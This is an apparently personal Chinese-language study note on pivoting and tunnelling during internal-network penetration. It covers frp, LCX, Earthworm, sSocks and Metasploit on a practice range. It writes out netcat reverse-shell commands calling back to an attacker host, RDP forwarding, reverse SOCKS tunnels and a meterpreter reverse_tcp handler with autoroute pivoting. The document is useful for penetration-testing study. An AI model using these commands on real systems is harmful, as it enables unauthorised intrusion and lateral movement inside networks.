



TCP/UDP 是路，HTTP/SOCKS 是路上的车，而正向/反向代理是交通调度模式。

## frp 端口转发

### 功能描述

frp 是一个专注于内网穿透的高性能的反向代理应用，支持 TCP、UDP、HTTP、HTTPS 等多种协议，且支持 P2P 通信。可以将内网服务以安全、便捷的方式通过具有公网 IP 节点的中转暴露到公网。

frp 最大的一个特点是使用 [SOCKS 代理](https://zhida.zhihu.com/search?content_id=177765655&content_type=Article&match_order=1&q=SOCKS%E4%BB%A3%E7%90%86&zhida_source=entity)，而 SOCKS 是加密通信的，类似于做了一个加密的隧道，可以把外网的流量，通过加密隧道穿透到内网。效果有些类似于 VPN。

### 项目部署使用

客户端 frpc 即被代理端通过 frp 将自己的端口服务代理到服务端 frps，常见的应用场景是将域内网络通过被控的中间服务器映射到外部攻击机。进一步访问到内网资源。



#### Server Configuration

```
[common]**
**bind_port = 7000  # 服务端绑定的端口，需要在防火墙中开放**
**bind_udp_port = 5999**
**dashboard_port = 6001  # 仪表盘访问的端口，需要在防火墙中开放**
**dashboard_user = admin  # 仪表盘用户名**
**dashboard_pwd = admin  # 仪表盘密码**

**# 可选配置**
**vhost_http_port = 80  # http 服务映射端口，需要在防火墙中开放**
**vhost_https_port = 443  # https 服务映射端口，需要在防火墙中开放**
**token = your_token  # 协商令牌，客户端和服务器需要一致，建议配置该项并设置32位以上高强度复杂密码**
**log_file = ./frps.log  # 日志文件位置**
**log_level = info  # 日志级别，可选：debug, info, warn, error**
**log_max_days = 3  # 日志保存天数**
**heartbeat_timeout = 15  # 心跳超时配置**
**max_pool_count = 50  # 连接池的数量**
**max_ports_per_client = 0  # 每个客户端最大可以使用的端口，0表示无限制**
**authentication_timeout = 0  # 时间校验超时，0表示不校验**
**tcp_mux = true  # 是否使用TCP复用
```

简要部署

```yaml
[common]
bind_addr = 0.0.0.0  #服务端的ip地址
bind_port = 7000  #服务端的端口号

dashboard_port = 7500  #服务端仪表盘界面的访问端口
dashboard_user = admin  #仪表盘的用户名
dashboard_pwd = 123456  #仪表盘的用户密码
```

#### Client Configuration

##### 普通端口转发（local_port）

```bash
[common]
server_addr = 49.232.149.81  # 公网服务器的公网IP
server_port = 7000  # 与服务器端配置一致的端口

[ssh]  # 服务名称自定义
type = tcp
local_ip = 127.0.0.1
local_port = 22  # 映射到本地的端口
remote_port = 6002  # 远程连接的端口

[http]  # 可选，用于网站服务穿透
type = http
local_ip = 127.0.0.1
local_port = 80  # 本地HTTP服务端口
custom_domains = yourdomain.com  # 域名解析到该公网IP
```



##### Plugin 模式（socks5）

```
[plugin_socks]
type = tcp
plugin = socks5        # 关键！使用内置插件
remote_port = 46075    # frps上暴露的端口
# 注意：没有 local_ip 和 local_port！
```



---

## Proxifier

reference:

[https://www.yumefx.com/?p=2032](https://www.yumefx.com/?p=2032)

他只是一个代理管理的工具，可以设置和管理代理连接，但并不提供代理服务器。

默认有两条代理规则，系统程序的规则是 Direct 直连模式，不通过代理，默认其他应用程序，都通过代理。

**内网渗透 socks 代理通过 fscan 扫描域信息**

[https://www.cnblogs.com/smileleooo/p/18275100#proxifier%E4%BB%A3%E7%90%86%E5%B7%A5%E5%85%B7](https://www.cnblogs.com/smileleooo/p/18275100#proxifier%E4%BB%A3%E7%90%86%E5%B7%A5%E5%85%B7)（精研）

---

## Lcx 代理转发

LCX 是一款经典的端口转发工具，适用于将内网服务端口转发到公网。

reference:

#### 将自身端口流量转发到攻击机端口上

**1. 内网机器执行（被控端）**

```
lcx.exe –slave 192.168.43.142 51 192.168.43.137 3389
```

> 将内网 `192.168.43.137` 的 3389 端口转发到公网 `192.168.43.142`  的 51 端口

**2. 公网机器执行（控制端）**

```bash
Lcx.exe –listen 51 3389
```

> 监听 51 端口，并转发到本机的 3389 端口，这里关键是将自身端口流量转发到攻击机端口上，所以最后流量转发到了 3389，再通过攻击机的 3389 访问到内网的 3389，类似于 frp 中的普通代理模式。代理特定的端口服务。

**此时，访问公网服务器的 3389，通联到内网机器的 3389**

## EarthwormEw(Earthworm)

reference:[https://mp.weixin.qq.com/s?src=11&timestamp=1769990929&ver=6517&signature=UxjAz1COV8nNVkw1HyPYHEkvUQJFGaDcuDDcHZys0Yng1JQps-DO8KeXPuHdYjj-F0Ifg6WRsD6oYTytjzm8vfqB8hLq6*D90b-m*cA*9*rhOhyHRTO9heLevtRlFUdR&new=1](https://mp.weixin.qq.com/s?src=11&timestamp=1769990929&ver=6517&signature=UxjAz1COV8nNVkw1HyPYHEkvUQJFGaDcuDDcHZys0Yng1JQps-DO8KeXPuHdYjj-F0Ifg6WRsD6oYTytjzm8vfqB8hLq6*D90b-m*cA*9*rhOhyHRTO9heLevtRlFUdR&new=1)

攻击机运行

```
./ew -s rcsocks -l 1260 -e 1261
```

添加转接隧道，把 1260 端口收到的代理请求转给 1261 端口

在目标机上上传 ew

```
ew.exe -s rssocks -d 148.xx.xx.xx -e 1261（148.xx.xx.xx为公网vps）
```

接下来可以通过配置 socks（攻击机 IP：148.xx.xx.xx+1260）来访问目标中的服务，类似于 frp 中的 plugin-socks。

---

Download：

[https://github.com/janker-sys/earthworm](https://github.com/janker-sys/earthworm)-

[https://github.com/idlefire/ew](https://github.com/idlefire/ew)

---

## NC 反弹 CMDshell

NC (Netcat) 是网络工具中的"瑞士军刀"，可用于建立反向/正向 shell 连接。

### 正向连接

**远程机器（被控端）执行：**

```bash
nc -lvvp 端口 -e cmd.exe
```

> `-l` 监听模式，`-v` 详细输出，`-p` 指定端口，`-e` 执行程序

**本地机器（控制端）执行：**

```bash
nc -vv 远程IP 端口
```

### 反向连接（更常用，可穿透防火墙）

**本地机器（控制端）先监听：**

```bash
nc -lvvp 端口
```

**远程机器（被控端）主动连接：**

```bash
nc -e cmd.exe 控制端IP 端口
```

### 反向连接的优势

- ✅ 可穿透内网防火墙（出站流量通常不受限制）
- ✅ 不需要内网机器开放端口
- ✅ 更加隐蔽

## sSocket 代理

sSocket 是一个 SOCKS 代理工具套装，支持：

- SOCKS5 验证
- IPv6 和 UDP
- **反向 SOCKS 代理**（重点功能）

### 下载地址

[https://sourceforge.net/projects/ssocks/](https://sourceforge.net/projects/ssocks/)

### 使用方法

**1. VPS 端执行（控制端）**

```bash
rcsocket.exe –l 1088 –p 8888 –vv
```

> 监听 1088 端口作为 SOCKS 代理入口，8888 端口等待内网机器连接

**2. 内网机器执行（被控端）**

```bash
./rssocks –vv –s VPS_IP:8888
```

```
┌─────────────────┐      ┌─────────────────┐      ┌─────────────────┐
│   攻击者本机     │      │    公网VPS      │      │   内网机器       │
│                 │      │                 │      │                 │
│ SOCKS5 代理     │ ───► │ rcsocket        │ ◄─── │  rssocks        │
│ VPS:1088        │      │ -l 1088 -p 8888 │      │  -s VPS:8888    │
└─────────────────┘      └─────────────────┘      └─────────────────┘
                                │
                                ▼
                    ┌─────────────────────┐
                    │   内网其他机器       │
                    │  (通过代理可访问)    │
                    └─────────────────────┘
```

---

## 综合玩法

梳理总结内网渗透-代理转发时，遇到一篇微信公众号文章，里面针对一个靶场做了比较综合的工具利用，适详细研究，文章地址 [https://mp.weixin.qq.com/s/pLnFYIPcByqD5cT7qtVw4A](https://mp.weixin.qq.com/s/pLnFYIPcByqD5cT7qtVw4A)

reference：[https://www.cnblogs.com/sijidou/p/13286938.html](https://www.cnblogs.com/sijidou/p/13286938.html)

其中，对于 DMZ 区服务器没法访问到 kali（net 接入，只有局域网 ip），在 windows 宿主机中利用 frp 映射到 kali。这个思路亟需掌握

总结一下思路，宿主机 windows 能访问到 DMZ 区服务器，windows 中运行 frps，kali 配置 frpc 如下：

```java
[proxy]
type = tcp
local_ip = 127.0.0.1
local_port = 10001
remote_port = 10001
```

可以验证通联性

kali 中

```java
nc -lvvp 10001
```

windows 中访问 IP:10001，观察 kali 终端回显已验证连接成功

现在可以通过访问 windows 攻击机的 10001 端口实现流量转发到 kali 中。

接下来反弹 shell 到 kali 中

```
use exploit/multi/handler 
set payload php/meterpreter/reverse_tcp
set LPORT 10001
set LHOST 10.86.0.87
run
```

利用载荷进行将 shell 反弹到 10.86.0.87windows 攻击机上，又因为这里进行了端口转发，所以直接反弹到了 kali 中。

Kali 拿到 msf 的反弹 shell 之后，进一步设置代理。

添加路由

```
meterpreter> run autoroute -s 192.168.93.0/24   # 添加内网路由
meterpreter> run autoroute -p                    # 查看路由表
```

挂起 Shell，启动 SOCKS 代理

```
meterpreter> background                          # 挂起到后台

# 启动 SOCKS4a 代理
use auxiliary/server/socks4a                     # socks5 也可以
set srvhost 127.0.0.1
set srvport 1084
run
```

使用 proxychains 代理访问内网

```
vim /etc/proxychains.conf
# 在 [ProxyList] 添加：
# socks4 127.0.0.1 1084

# 测试访问内网 Web
proxychains curl http://192.168.93.138
```

MSF 代理核心原理

```
┌─────────────────────────────────────────────────────────────────┐
│  proxychains curl http://192.168.93.138                         │
│       │                                                         │
│       ▼                                                         │
│  ┌──────────────┐                                               │
│  │  SOCKS4a     │  ◄── srvhost:127.0.0.1 srvport:1084           │
│  │  代理模块     │                                               │
│  └──────┬───────┘                                               │
│         │                                                       │
│         ▼                                                       │
│  ┌──────────────┐                                               │
│  │   autoroute  │  ◄── 192.168.93.0/24 路由表                   │
│  │   路由模块    │                                               │
│  └──────┬───────┘                                               │
│         │                                                       │
│         ▼                                                       │
│  ┌──────────────┐                                               │
│  │  Meterpreter │  ◄── 通过已建立的 session 隧道                │
│  │    Session   │                                               │
│  └──────┬───────┘                                               │
│         │                                                       │
│         ▼                                                       │
│  ┌──────────────┐                                               │
│  │  跳板机网卡   │  ◄── 192.168.93.143                          │
│  │  (内网接口)   │                                               │
│  └──────┬───────┘                                               │
│         │                                                       │
│         ▼                                                       │
│  ┌──────────────┐                                               │
│  │   内网目标    │  ◄── 192.168.93.138:80                       │
│  └──────────────┘                                               │
└─────────────────────────────────────────────────────────────────┘
```

分析一下这里为什么要添加路由？

`run autoroute -s 192.168.93.0/24   # 添加内网路由`

告诉 MSF"凡是要访问 192.168.93.0/24 网段的流量，都通过当前这个 Meterpreter session（即 DMZ 服务器）转发。"

但是！路由只对 MSF 内部有效！如果用 curl、浏览器、nmap 等外部工具访问内网，autoroute 不起作用。

MSF 在 Kali 本机的 127.0.0.1:1084 开了一个 SOCKS 代理服务。任何连接这个代理的工具，流量都会：

```
┌────────────────────────────────────────────────────────────────────────┐
│                                                                        │
│  curl (通过 proxychains)                                               │
│       │                                                                │
│       │ 连接 SOCKS 代理 127.0.0.1:1084                                 │
│       ▼                                                                │
│  ┌─────────────┐                                                       │
│  │ MSF SOCKS   │                                                       │
│  │ 代理模块     │                                                       │
│  └──────┬──────┘                                                       │
│         │                                                              │
│         │ 查路由表：192.168.93.x 走 Session 1                           │
│         ▼                                                              │
│  ┌─────────────┐                                                       │
│  │ Meterpreter │                                                       │
│  │  Session 1  │                                                       │
│  └──────┬──────┘                                                       │
│         │                                                              │
│         │ 通过 DMZ 服务器的内网网卡转发                                  │
│         ▼                                                              │
│  ┌─────────────┐                                                       │
│  │ 内网服务器   │                                                       │
│  │192.168.93.138                                                       │
│  └─────────────┘                                                       │
│                                                                        │
└────────────────────────────────────────────────────────────────────────┘
```

此时 MSF 内部状态

```
┌─────────────────────────────────────────────────────────────────────────────┐
│                          MSF Framework 内部                                 │
│                                                                             │
│  ┌─────────────────────────────────────────────────────────────────────┐   │
│  │  Session 表                                                          │   │
│  │  ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━   │   │
│  │  Session 1: Meterpreter → DMZ服务器 (172.16.3.145)                   │   │
│  │             双向加密隧道已建立，持续保持连接                            │   │
│  └─────────────────────────────────────────────────────────────────────┘   │
│                                                                             │
│  ┌─────────────────────────────────────────────────────────────────────┐   │
│  │  路由表 (autoroute)                                                  │   │
│  │  ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━   │   │
│  │  目标网段              通过哪个 Session                               │   │
│  │  ─────────────────────────────────────────                           │   │
│  │  192.168.93.0/24       Session 1                                     │   │
│  └─────────────────────────────────────────────────────────────────────┘   │
│                                                                             │
│  ┌─────────────────────────────────────────────────────────────────────┐   │
│  │  SOCKS 代理模块 (auxiliary/server/socks4a)                           │   │
│  │  ━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━━   │   │
│  │  监听地址: 127.0.0.1:1084                                            │   │
│  │  工作方式: 收到 SOCKS 请求 → 查路由表 → 通过对应 Session 转发         │   │
│  └─────────────────────────────────────────────────────────────────────┘   │
│                                                                             │
└─────────────────────────────────────────────────────────────────────────────┘
```

---

## Reference || XXX || SOLVED

[https://note.tonycrane.cc/devops/network/tunnel/](https://note.tonycrane.cc/devops/network/tunnel/)

[https://www.yumefx.com/?p=2032](https://www.yumefx.com/?p=2032)(相关度较高)

[https://www.bwgss.org/875.html](https://www.bwgss.org/875.html)

[https://www.cnblogs.com/ai168/p/18713558](https://www.cnblogs.com/ai168/p/18713558)

[https://blog.csdn.net/qq_53568983/article/details/143032581](https://blog.csdn.net/qq_53568983/article/details/143032581)

[https://blog.csdn.net/daocaokafei/article/details/116785966](https://blog.csdn.net/daocaokafei/article/details/116785966)

[https://cloud.tencent.com/developer/article/2518602](https://cloud.tencent.com/developer/article/2518602)

[https://www.cnblogs.com/Xy--1/p/13475299.html](https://www.cnblogs.com/Xy--1/p/13475299.html)

https://www.xiaosong.fun/2024/09/30/lan-service-proxy/

[https://s1eepy-amon.github.io/2024/09/08/Proxy/Wireguard/](https://s1eepy-amon.github.io/2024/09/08/Proxy/Wireguard/)

[https://www.v2ex.com/t/985923](https://www.v2ex.com/t/985923)

[https://mp.weixin.qq.com/s/pLnFYIPcByqD5cT7qtVw4A](https://mp.weixin.qq.com/s/pLnFYIPcByqD5cT7qtVw4A)

[https://zhuanlan.zhihu.com/p/403361038](https://zhuanlan.zhihu.com/p/403361038)

[https://www.cnblogs.com/smileleooo/p/18275100](https://www.cnblogs.com/smileleooo/p/18275100)

[https://www.escapelife.site/posts/1bba3ee7.html](https://www.escapelife.site/posts/1bba3ee7.html)

[https://blog.csdn.net/u011119817/article/details/145204298](https://blog.csdn.net/u011119817/article/details/145204298)

[https://www.cnblogs.com/backlion/p/18875384](https://www.cnblogs.com/backlion/p/18875384)(精研)

[https://www.anquanke.com/post/id/231424](https://www.anquanke.com/post/id/231424)

域渗透

[https://blog.csdn.net/youuzi/article/details/130252131](https://blog.csdn.net/youuzi/article/details/130252131)（深研-> 三层渗透）

---

